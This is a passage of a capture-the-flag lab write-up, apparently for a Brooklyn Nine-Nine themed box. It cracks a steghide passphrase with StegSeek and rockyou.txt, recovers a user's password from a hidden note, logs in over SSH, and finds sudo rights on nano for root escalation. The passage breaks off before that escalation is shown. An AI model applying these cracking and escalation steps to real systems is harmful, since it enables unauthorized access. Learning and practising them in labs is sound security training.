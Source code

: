 Nothing really interesting there.

I then tried **steghide**:
	
```
steghide extract -sf stegopic.jpg 
```

I was then asked for a passphrase. So now I just need to find the passphrase.

I downloaded a program called ![StegSeek](https://github.com/RickdeJager/stegseek) on GitHub. It is an incredibly fast StegHide password cracker. After downloading StegSeek, I ran it:
	
```
stegseek stegopic.jpg rockyou.txt

StegSeek version 0.5
Progress: 0.52% (722118 bytes)           

[i] --> Found passphrase: "admin"
[i] Original filename: "note.txt"
[i] Extracting to "stegopic.jpg.out"

```

We have the passphrase: **admin** let's use it on StegHide.

```
steghide extract -sf stegopic.jpg 
Enter passphrase: admin
wrote extracted data to "note.txt".
```

Here are the contents of **note.txt**:
	
```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Now, I can log in as Holt, the Captain of the 99.

```
ssh holt@10.10.49.139
```

I check the output of **sudo -l**:
	
```
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

Same idea as with Jake's account. But this time we can run the **Nano** text editor with root priveleges. So I should be able to read the **root.txt** file like this:
	